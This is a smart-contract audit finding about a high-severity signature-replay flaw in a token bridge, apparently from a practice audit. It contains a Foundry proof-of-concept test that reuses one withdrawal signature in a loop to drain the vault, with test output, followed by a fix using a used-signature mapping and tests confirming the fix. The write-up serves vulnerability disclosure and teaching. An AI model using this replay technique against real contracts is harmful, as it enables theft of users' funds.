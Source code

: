## [High] Unprotected signature leads to a lost of funds

### Severity

High Risk

### Date Modified

Nov 14th, 2023

### Summary

Signatures should be protected in several ways: adding the chainId to identify the valid network, adding a nonce or timestamp to track all signatures, mapping signatures that have already been used...

In this case, we are creating signatures without this type of protection, so that a malicious attacker can drain all the funds in the current L1 network, but probably also in the L2 network if the signatures are validated there in the same way.

### Vulnerability Details (PoC)

In this case, the user `attacker` with a small deposit can create a valid signature, but since there is no trace to confirm that the signature has already been used, the attacker can use it multiple times until all the funds in the vault have been withdrawn.

```
    modifier addFunds() {
        // We set an initial balance using the user already defined:
        vm.startPrank(user);
        uint256 depositAmount = 10e18;

        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(user, userInL2, depositAmount);

        assertEq(token.balanceOf(address(vault)), depositAmount);

        vm.stopPrank();

        _;
    }

    function test_attackwithdrawTokensToL1() external addFunds {
        // 1. We have an attacker account with 1 token:
        assertEq(token.balanceOf(attacker), 1e18);

        // 2. The attack starts with a deposit of 1 token:
        vm.startPrank(attacker);
        uint256 attackerDepositAmount = 1e18;
        token.approve(address(tokenBridge), attackerDepositAmount);
        tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerDepositAmount);

        (uint8 v, bytes32 r, bytes32 s) =
            _signMessage(_getTokenWithdrawalMessage(attacker, attackerDepositAmount), operator.key);

        // 3. As the signature is not nonce protected, we can execute as much as we want:
        uint256 vaultBalance = token.balanceOf(address(vault)) / 1e18;

        for (uint256 i; i < vaultBalance; ++i) {
            tokenBridge.withdrawTokensToL1(attacker, attackerDepositAmount, v, r, s);
        }
        vm.stopPrank();

        // 4. Check:
        assertEq(token.balanceOf(address(vault)), 0);
        assertEq(token.balanceOf(attacker) / 1e18, vaultBalance);
    }
```

```
➜  2023-11-Boss-Bridge git:(main) ✗ forge test --mt test_attackwithdrawTokensToL1
[⠒] Compiling...
[⠆] Compiling 3 files with 0.8.20
[⠰] Solc 0.8.20 finished in 1.24s
Compiler run successful!

Running 1 test for test/L1BossBridgeTest.t.sol:L1BossBridgeTest
[PASS] test_attackwithdrawTokensToL1() (gas: 246574)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.49ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

### Impact

The Protocol will lose all its funds.

### Tools Used

Foundry.

### Recommendations

First we need to implement the EIP721 to sign transactions. This ensures that the signature contains all the requirements to be secure: chainId, nonce and a verifiable message.

But we also need to check if the signature has already been used with a mapping:

```
mapping(bytes32 signatures => bool signaturesUsed) public executedSignatures;
```

Now it is time to add all the signatures used to the mapping.

```
function sendToL1(uint8 v, bytes32 r, bytes32 s, bytes memory message) public nonReentrant whenNotPaused {
        address signer = ECDSA.recover(MessageHashUtils.toEthSignedMessageHash(keccak256(message)), v, r, s);

        if (!signers[signer]) {
            revert L1BossBridge__Unauthorized();
        }

        (address target, uint256 value, bytes memory data) = abi.decode(message, (address, uint256, bytes));

        //////////////////////
        //    SOLUTION    ///
        /////////////////////
        bytes32 signature = keccak256(abi.encodePacked(v, r, s));
        require(executedSignatures[signature] == false, "Signature already used");
        executedSignatures[signature] = true;
        //////////////////////
        // END SOLUTION    ///
        /////////////////////

        (bool success,) = target.call{ value: value }(data);
        if (!success) {
            revert L1BossBridge__CallFailed();
        }
    }

```

We now add 2 tests:

1. The attacker tries to drain all the funds and fails.
2. The attacker accept defeat and run off only with their deposit.

```
function test_attackTryAndFail() external addFunds {
        // 1. The attack starts with a deposit of 1 token:
        vm.startPrank(attacker);
        uint256 attackerDepositAmount = 1e18;
        token.approve(address(tokenBridge), attackerDepositAmount);
        tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerDepositAmount);

        (uint8 v, bytes32 r, bytes32 s) =
            _signMessage(_getTokenWithdrawalMessage(attacker, attackerDepositAmount), operator.key);

        // 2. Attacker try and fail!!!!
        uint256 vaultBalance = token.balanceOf(address(vault)) / 1e18;

        for (uint256 i; i < vaultBalance; ++i) {
            tokenBridge.withdrawTokensToL1(attacker, attackerDepositAmount, v, r, s);
        }
        vm.stopPrank();
    }
```

```
➜  2023-11-Boss-Bridge git:(main) ✗ forge test --mt test_attackTryAndFail
[⠒] Compiling...
[⠰] Compiling 3 files with 0.8.20
[⠔] Solc 0.8.20 finished in 1.26s
Compiler run successful!

Running 1 test for test/L1BossBridgeTest.t.sol:L1BossBridgeTest
[FAIL. Reason: Signature already used] test_attackTryAndFail() (gas: 190075)
Test result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 2.60ms

Ran 1 test suites: 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/L1BossBridgeTest.t.sol:L1BossBridgeTest
[FAIL. Reason: Signature already used] test_attackTryAndFail() (gas: 190075)

Encountered a total of 1 failing tests, 0 tests succeeded
```

```
function test_attackerWithdrawAndRun() external addFunds {
        // 2. We have an attacker account with 1 token:
        assertEq(token.balanceOf(attacker), 1e18);

        // 3. The attack starts with a deposit of 1 token:
        vm.startPrank(attacker);
        uint256 attackerDepositAmount = 1e18;
        token.approve(address(tokenBridge), attackerDepositAmount);
        tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerDepositAmount);

        (uint8 v, bytes32 r, bytes32 s) =
            _signMessage(_getTokenWithdrawalMessage(attacker, attackerDepositAmount), operator.key);

        // 4. The signature IS PROTECTED. The attacker decided withdraw their own funds and run:
        uint256 vaultBalance = token.balanceOf(address(vault));

        tokenBridge.withdrawTokensToL1(attacker, attackerDepositAmount, v, r, s);

        vm.stopPrank();

        // 5. Check:
        assertEq(token.balanceOf(address(vault)), vaultBalance - attackerDepositAmount);
        assertEq(token.balanceOf(attacker), attackerDepositAmount);
    }
```

```
➜  2023-11-Boss-Bridge git:(main) ✗ forge test --mt test_attackerWithdrawAndRun
[⠒] Compiling...
No files changed, compilation skipped

Running 1 test for test/L1BossBridgeTest.t.sol:L1BossBridgeTest
[PASS] test_attackerWithdrawAndRun() (gas: 142322)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.74ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
